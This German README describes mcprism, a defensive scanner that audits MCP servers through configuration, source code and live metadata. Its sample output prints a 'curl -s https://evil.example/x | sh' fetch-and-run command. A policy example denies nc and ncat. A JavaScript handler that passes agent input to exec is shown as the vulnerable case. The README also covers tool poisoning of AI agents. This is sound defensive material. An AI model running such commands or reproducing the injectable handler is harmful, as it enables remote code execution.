

<div align="center">

<p><a href="README.md">English</a> · <a href="README.zh-CN.md">简体中文</a> · <a href="README.ja-JP.md">日本語</a> · <a href="README.ko-KR.md">한국어</a> · <a href="README.fr-FR.md">Français</a> · Deutsch · <a href="README.es-ES.md">Español</a> · <a href="README.ru-RU.md">Русский</a> · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**Prüfen Sie MCP-Server, bevor Ihre KI ihnen vertraut.**

mcprism ist ein Sicherheits-Scanner für [Model Context Protocol](https://modelcontextprotocol.io/)-Server. Er betrachtet einen Server aus drei Blickwinkeln:

1. **Konfiguration** — wie ein Client ihn startet oder verbindet: versionsfixierte Pakete, unverschlüsselte Übertragung, Anmeldedaten in der Konfiguration sowie Ziele auf Cloud-Metadaten und private Netzwerke.
2. **Quellcode** — liegt die Implementierung auf der Platte, liest er JS/TS/Python/Go-Tool-Handler und verfolgt von einem Agenten steuerbare Argumente bis zu gefährlichen Senken: Prozessausführung, ausgehende Anfragen (SSRF) und Dateisystempfade, außerdem eval, unsichere Deserialisierung und fest codierte Geheimnisse.
3. **Laufzeit** — er führt den MCP-Handshake durch, listet Tools, Ressourcen und Prompts auf und prüft das Poisoning der Tool-Metadaten. Er ruft nie ein Tool auf.

Jeder Server erhält eine Liste an Befunden, eine Punktzahl von 0 bis 100 und eine Note von A bis F. mcprism kommt als einzelne Go-Binärdatei ohne Laufzeitabhängigkeiten, läuft vollständig offline und hat keine Nebenwirkungen.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP verbindet Ihren KI-Agenten mit externen Servern für Tools, Dateien und Daten. Das Protokoll ist in Claude Desktop und Claude Code, Cursor, VS Code, Windsurf und weiteren integriert, sodass eine typische Einrichtung schnell mehrere Server anspricht. Diese Server führen Befehle aus, lesen das Dateisystem und sehen Ihre Prompts. Ein bösartiger oder überprivilegierter Server kann Anmeldedaten stehlen, Befehle ausführen oder den Agenten über zurückgegebenen Text lenken. mcprism liefert Ihnen pro Server einen Bericht und eine Punktzahl, bevor ein Agent ihn nutzt — ähnlich wie `trivy` für ein Image.

<p align="center">
  
</p>

## Schnellstart in zwei Zeilen

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## Einen Server in einer Zeile prüfen

Prüfen Sie einen Startbefehl, eine URL, ein Paket oder Code auf der Platte, ohne ihn zu einer Konfiguration hinzuzufügen:

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # Quellbaum prüfen
mcprism vet server.py            # eine Datei prüfen
```

`vet` ist standardmäßig statisch und führt das Ziel nicht aus. Mit `--probe` wird es gestartet und es werden Tools, Ressourcen und Prompts aufgelistet. Ein Quellbaum oder eine Datei läuft durch die unten beschriebene SAST-Engine, ganz ohne Netzwerk.

<p align="center">
  
</p>

## Inhaltsverzeichnis

- [Änderungsprotokoll](CHANGELOG.md)
- [Angriffsfläche](docs/MCP-ATTACK-SURFACE.md)
- [Launch-Kit](docs/LAUNCH-KIT.md)
- [Funktionen](#funktionen)
- [Wann einsetzen](#wann-einsetzen)
- [Bericht](#bericht)
- [Installation](#installation)
- [Schnellstart](#schnellstart)
- [Beispielausgabe](#beispielausgabe)
- [Policy als Code](#policy-als-code)
- [Quellcode-Prüfung (SAST)](#quellcode-prüfung-sast)
- [Was erkannt wird](#was-erkannt-wird)
- [Ausgabeformate](#ausgabeformate)
- [Unterstützte Clients und Transports](#unterstützte-clients-und-transports)
- [CI/CD](#cicd)
- [So funktioniert es](#so-funktioniert-es)
- [Vergleich](#vergleich)
- [Häufige Fragen](#häufige-fragen)
- [Roadmap](#roadmap)
- [Mitwirken](#mitwirken)

## Funktionen

- Eine einzelne Binärdatei. Kein Python- oder Node-Setup, kein LLM-API-Schlüssel, kein Konto.
- Statische, Quell- und Live-Prüfung. Liest die Konfiguration, prüft JS/TS/Python/Go-Quellcode, wenn ein Checkout vorhanden ist, und führt den MCP-Handshake durch, um Tools, Ressourcen und Prompts aufzulisten. Er ruft nie ein Tool auf.
- Policy als Code. Regeln ein-/ausschalten, Schweregrade ändern, Pakete/Befehle/Domains erlauben oder ablehnen und Netzwerkisolation verlangen. Die eingebauten Profile bieten die Baselines `default`, `strict` und `ci`.
- Risikoakzeptanz-Register. Befunde mit Grund und Ablaufdatum unterdrücken. Unterdrückte Einträge bleiben im Bericht sichtbar und kehren nach Ablauf zurück.
- Deterministisch und offline. 34 Regeln, abgebildet auf OWASP MCP01–MCP07; nichts verlässt Ihren Rechner.
- Berichte für Menschen und Maschinen: table, JSON, Markdown, HTML, SARIF, JUnit XML, CycloneDX-SBOM und CSV.
- Mehrere Ziele auf einmal scannen: Dateien, Verzeichnisse (rekursiv) und URLs.

## Wann einsetzen

- Sie haben MCP-Server installiert und wollen vor dem Start durch einen Agenten wissen, worauf sie zugreifen. Führen Sie `mcprism scan` aus.
- Ein Team teilt sich einen Satz Server und will eine dokumentierte Baseline. Legen Sie eine `policy.yml` in die Versionsverwaltung und fahren Sie auf Produktionsrechnern `--profile strict`.
- Sie prüfen Änderungen in der CI. Führen Sie `mcprism scan --profile ci` aus, um den Build ab „high“ scheitern zu lassen, oder veröffentlichen Sie SARIF im Code-Scanning.

## Bericht

<p align="center">
  
</p>

Stapelprüfung vieler Server (statischer Modus):

<p align="center">
  
</p>

## Installation

```sh
# Einzeiler-Installer (Linux / macOS / Windows über Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

Oder laden Sie eine Binärdatei von der Seite der [Veröffentlichungen](https://github.com/HUA503/mcprism/releases) (Linux/macOS/Windows, amd64 und arm64). Homebrew, Scoop und Nix stehen auf der Roadmap.

## Schnellstart

```sh
# Findet automatisch die Konfigurationen von Claude Desktop, Claude Code, Cursor, VS Code, ...
mcprism scan

# Eine bestimmte Konfigurationsdatei
mcprism scan ~/.claude.json

# Ein Verzeichnis, rekursiv gescannt
mcprism scan ./configs

# Ein entfernter Server
mcprism scan https://mcp.example.com/v1

# Mehrere Ziele zusammen
mcprism scan a.json b.json ./configs

# Ganz offline / nur statisch (kein Prozess gestartet, keine Verbindung)
mcprism scan mcp.json

# Eine Baseline oder eigene Policy anwenden
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# Interaktive Terminal-Oberfläche
mcprism scan -i

# Befehl / URL / Paket ohne Konfigurationsdatei prüfen
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # wirklich starten und Tools auflisten

# Referenz
mcprism inspect mcp.json     # Tools/Ressourcen/Prompts eines Servers auflisten
mcprism rules                # eingebaute Regeln auflisten
mcprism profiles             # eingebaute Profile auflisten
```

### Flags

| Flag | Beschreibung |
|---|---|
| `-f, --format` | `table` (Standard) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | Bericht in eine Datei schreiben |
| `-p, --policy` | Pfad zu einer Policy-YAML-Datei |
| `--profile` | Eingebautes Profil: `default` · `strict` · `ci` |
| `--suppressions` | Pfad zu einer Suppressions-YAML-Datei |
| `--no-dynamic` | Nur statische Prüfung; keinen Prozess starten und nicht verbinden |
| `--fail-on` | Exit-Code ungleich null bei `critical` / `high` / `medium` / `low` |
| `--timeout` | Handshake-Timeout pro Server (Standard `10s`) |
| `-i, --interactive` | Befunde in einem TUI durchgehen |
| `--transport` | Für URLs `http` (Streamable HTTP) oder `sse` (veraltet) erzwingen |
| `--probe` (`vet`) | Wirklich starten/verbinden und Tools auflisten; führt das Ziel aus, besser in einer Sandbox |

## Beispielausgabe

Scan zweier lokaler Server im statischen Modus:

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

Die HTML- und SARIF-Formate ergänzen Belege, Maßnahmen und die OWASP-Zuordnung.

## Policy als Code

Eine Policy-Datei ist ein versioniertes YAML-Dokument. Sie legt die Pass/Fail-Bedingungen fest, überschreibt einzelne Regeln, listet erlaubte und abgelehnte Pakete/Befehle/Domains und kann verlangen, dass Server mit Datei- oder Shell-Zugriff keine ausgehenden Verbindungen haben.

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

Ein Treffer auf eine Ableitung wird als `MCP700` gemeldet; ein Datei/Shell-Server mit Netzwerkzugriff unter Isolationspflicht wird als `MCP701` gemeldet. Siehe [`examples/policy.yml`](examples/policy.yml), [`examples/suppressions.yml`](examples/suppressions.yml) und den [Policy-Leitfaden](docs/POLICIES.md). Zu Compliance-Gates und maschinenlesbaren Ausgaben siehe [docs/COMPLIANCE.md](docs/COMPLIANCE.md).

## Quellcode-Prüfung (SAST)

Die Konfiguration sagt, wie ein Server gestartet wird, nicht, was ein Handler mit einem Argument macht. Ein in der Konfiguration unauffälliger Server kann ein Tool-Parameter trotzdem direkt an eine Shell reichen, als Anfrage-URL verwenden oder einen daraus gebauten Pfad öffnen. Diese Fehler stecken in der Implementierung, deshalb liest mcprism den Code.

Richten Sie `vet` auf einen Checkout oder eine einzelne Datei. Kein Build-Schritt, keine installierten Abhängigkeiten und kein Netzwerk nötig:

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

Er erkennt gängige SDKs und Frameworks:

- JavaScript/TypeScript: den `McpServer` des `@modelcontextprotocol/sdk`, das niedrigstufige `Server.setRequestHandler` und verschiedene `.tool(...)`-Registrierungen.
- Python: den `@mcp.tool()`-Dekorator von `FastMCP` und den niedrigstufigen `call_tool`-Handler.

Für jedes Tool behandelt er die Handler-Argumente als von einem Angreifer gesteuert und verfolgt sie einen Schritt bis zu einer Senke. Befunde nennen Datei und Zeile, zeigen den Code und erklären die Korrektur:

| Regel | Senke | Standard |
|---|---|---|
| MCP801 | Tool-Eingabe erreicht eine Prozess-/Befehlssenke (`exec`, `spawn`, `os.system`, `subprocess shell=True`) | critical |
| MCP802 | Tool-Eingabe steuert eine Anfrage-URL (`fetch`, `requests`, `httpx`) — SSRF | high |
| MCP803 | Tool-Eingabe wird ohne Begrenzung als Dateipfad verwendet | high |
| MCP804 | Dynamische Codeausführung (`eval`, `Function`, `exec`) | high |
| MCP805 | Unsichere Deserialisierung (`pickle`, `marshal`, `yaml.load`) | high |
| MCP806 | Fest codiertes Anmeldedatum im Quellcode | high |

Er erkennt übliche sichere Muster und schweigt, wenn sie vorhanden sind, um Fehlalarme zu senken:

- Ein fester Befehl mit als Array übergebenen Argumenten (`execFile(cmd, args)`, `subprocess.run([...])`) statt einer Shell-Zeichenkette.
- Pfadbegrenzung: `path.resolve(base, name)` mit `startsWith(base)`-Prüfung, in Python `realpath` + `startswith`.
- Eine konstante Basis-URL statt eines vom Agenten gewählten Hosts sowie `yaml.safe_load` / `SafeLoader`.

Dieser Handler erhält MCP801, weil der Agent den Befehl steuert:

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

Die korrigierte Fassung nutzt eine Zulassungsliste und startet nie eine Shell:

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

Die Engine arbeitet musterbasiert mit einer Ebene Taint-Verfolgung und ohne Drittparser, damit die Binärdatei klein und in sich geschlossen bleibt. Sie erkennt nicht alles, was ein vollwertiger Datenfluss-Analysator sieht; sie zielt auf die kurzen, direkten Handler-bis-Senke-Wege, in denen die meisten MCP-Server-Fehler liegen. Regel-Details und weitere Beispiele finden sich in [docs/SAST.md](docs/SAST.md).

<p align="center">
  
</p>

## Was erkannt wird

- Geheimnisse in der Konfiguration. Erkennbare Anmeldedatenformate (AWS, Google, GitHub, Slack, Stripe, GitLab, OpenAI, JWT u. a.) werden nach Typ gemeldet, und werte mit hoher Entropie, die wie erzeugte Schlüssel aussehen, werden als verdächtige Geheimnisse markiert. Platzhalter und `${ENV_VAR}`-Referenzen bleiben unbeanstandet.
- Unverschlüsselte Übertragung und abgeschaltetes TLS (`http://`, `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- Zu weit gefasste Berechtigungen. Auf `/` oder das Home-Verzeichnis gemountete Dateisystem-Server; abgeschaltete Sandbox oder Berechtigungsprüfungen.
- Tool-Poisoning. Injektionsanweisungen, unsichtbarer/bidirektionaler Unicode, verstecktes HTML/Markdown und codierte Blobs in Tool-Namen, -Beschreibungen und -Schemas.
- Gefährliche Fähigkeitskombinationen, etwa Shell plus Netzwerk, Dateilesen plus Netzwerk oder Dateischreiben plus Shell.
- Netzwerkziele. Cloud-Metadaten-Endpunkte (`169.254.169.254`) und private/Loopback-Bereiche.
- Lieferkettenrisiken: nicht fixierte Pakete, typosquat-ähnliche Namen und Code, der direkt von einer Remote-URL ausgeführt wird.
- Policy-Verstöße: abgelehnte Pakete/Befehle/Domains und verletzte Netzwerkisolation.
- Quellcode-Fehler in JS/TS/Python/Go-Handlern: Tool-Argumente, die Befehls-, Netzwerk- und Dateisenken erreichen, eval/exec, unsichere Deserialisierung und fest codierte Geheimnisse. Siehe [Quellcode-Prüfung](#quellcode-prüfung-sast).
- Tool-Namenskollisionen zwischen Servern und klassifizierte Verbindungsfehler (DNS / TLS / abgelehnt / Timeout / kein Befehl).

Die vollständige Liste mit OWASP-Abgleich steht in [docs/RULES.md](docs/RULES.md).

## Ausgabeformate

| Format | Typische Verwendung |
|---|---|
| `table` | Terminalausgabe |
| `json` | Eigene Tools |
| `sarif` | GitHub-Code-Scanning |
| `md` | Markdown-Berichte / Tickets |
| `html` | Teilbarer eigenständiger Bericht |
| `junit` | Testberichte für Jenkins, GitLab und GitHub |
| `cyclonedx` | SBOM / Schwachstellen-Import |
| `csv` | Tabellenkalkulation und GRC-Workflows |

## Unterstützte Clients und Transports

mcprism liest die JSON/JSONC-MCP-Konfiguration, die Claude Desktop, Claude Code, Cursor, VS Code (GitHub Copilot Chat), Windsurf, Cline, Continue und ähnliche Tools verwenden, sowohl als `mcpServers`-Objekt als auch als Array. Alle drei MCP-Transports werden unterstützt: stdio, Streamable HTTP und das ältere HTTP+SSE.

## CI/CD

Mit dem Profil `ci` riskante Server in einer Pipeline blockieren:

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --profile ci
```

Per SARIF im GitHub-Code-Scanning veröffentlichen:

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

Die JUnit-Ausgabe funktioniert mit den Testberichtsschritten von Jenkins und GitLab, die CycloneDX-Ausgabe lässt sich an ein SBOM- oder Schwachstellen-Tracking übergeben.

## So funktioniert es



mcprism listet Fähigkeiten nur auf, die Prüfung hat also keine Nebenwirkungen. Der mitgelieferte Demo-Server (`examples/testserver`) simuliert riskantes Verhalten, ohne es auszuführen. Die Paketstruktur und Datenflüsse sind in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) beschrieben.

## Vergleich

Basiert auf den öffentlichen Projektbeschreibungen (Funktionen können sich ändern):

| | **mcprism** | mcp-scan | mcp-audit | manuelle Prüfung |
|---|---|---|---|---|
| Sprache / Runtime | Go, einzelne Binärdatei | Python | Python/Node | — |
| Keine Installations-/Laufzeitabhängigkeiten | ✅ | ❌ | ❌ | — |
| Statische Konfigurationsprüfung | ✅ | ✅ | teilweise | ❌ |
| Live-Auflistung der Fähigkeiten | ✅ | teilweise | teilweise | ❌ |
| Quellcode-SAST (Handler-Senke-Taint) | ✅ | ❌ | ❌ | ❌ |
| Erkennung von Tool-Poisoning | ✅ | ✅ | teilweise | ❌ |
| Modellierung von Fähigkeitskombinationen | ✅ | ❌ | ❌ | ❌ |
| Policy als Code (erlauben/ablehnen/isolieren) | ✅ | ❌ | ❌ | ❌ |
| JUnit-/CycloneDX-/CSV-Ausgabe | ✅ | ❌ | ❌ | ❌ |
| Rekursiver Multi-Ziel-Scan | ✅ | teilweise | ❌ | ❌ |
| SARIF + CI-Exit-Codes | ✅ | ✅ | ❌ | ❌ |
| Vollständig offline, kein LLM | ✅ | ✅ | teilweise | ✅ |
| Plattformübergreifend | ✅ | teilweise | teilweise | — |

## Häufige Fragen

**Ruft mcprism meine Tools auf?**
Nein. Er führt nur die MCP-Initialisierung und die Auflistungsaufrufe durch. Tools werden nicht aufgerufen, Dateien nicht über einen Server geöffnet und Prompts nicht gesendet.

**Sendet er Daten irgendwohin?**
Nein. Die Regeln laufen lokal, es gibt keine Telemetrie. Ein Live-Scan spricht nur mit dem angegebenen Server für den Handshake; mit `--no-dynamic` entfällt auch das.

**Worin unterscheidet er sich von mcp-scan oder mcp-audit?**
Jene laufen auf Python oder Node und konzentrieren sich auf Konfiguration oder Poisoning. mcprism ist eine einzelne Go-Binärdatei, modelliert Fähigkeitskombinationen, erzwingt eine Policy als Code und gibt neben SARIF auch JUnit, CycloneDX und CSV aus. Siehe die [Vergleichstabelle](#vergleich).

**Bei mir ist ein Befund ein Fehlalarm. Was tun?**
Beheben Sie nach Möglichkeit das zugrunde liegende Problem, sonst unterdrücken Sie ihn mit Grund und Ablaufdatum. Unterdrückte Einträge bleiben sichtbar und laufen von allein ab. Siehe [docs/POLICIES.md](docs/POLICIES.md).

**Heißt ein sauberer Bericht, der Server ist sicher?**
Nein. mcprism meldet bekannte, beobachtbare Risiken. Es kann nicht beweisen, dass ein Server sicher ist; führen Sie nur Server aus, denen Sie vertrauen.

## Roadmap

- [ ] Mehr Regeln und weniger Fehlalarme, während sich die MCP-Spezifikation entwickelt
- [ ] Scan von MCP-Registries / Marktplätzen
- [ ] Benutzerdefinierte Regeln über Policy-Überschreibungen hinaus
- [ ] Pre-Commit-Hook und Editor-Integrationen
- [ ] Homebrew-, Scoop- und Nix-Pakete

## Mitwirken

Issues und PRs sind willkommen. Ein guter Regelbeitrag ist eine Prüfung mit klarer Signatur, deterministisch und mit niedriger Fehlalarmrate: unter `internal/rules` ergänzen, auf ein OWASP-MCP-Risiko abbilden und einen Test beifügen. Die Codestruktur steht in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md). Führen Sie vor dem Öffnen einer PR `go vet ./... && go test ./...` aus.

## Lizenz

[MIT](LICENSE) © mcprism contributors.

mcprism ist ein Abwehrwerkzeug. Es meldet Risiken; es beweist nicht, dass ein Server sicher ist, und ein sauberer Bericht ist kein Grund, einem Server zu vertrauen, den Sie nicht verstehen.
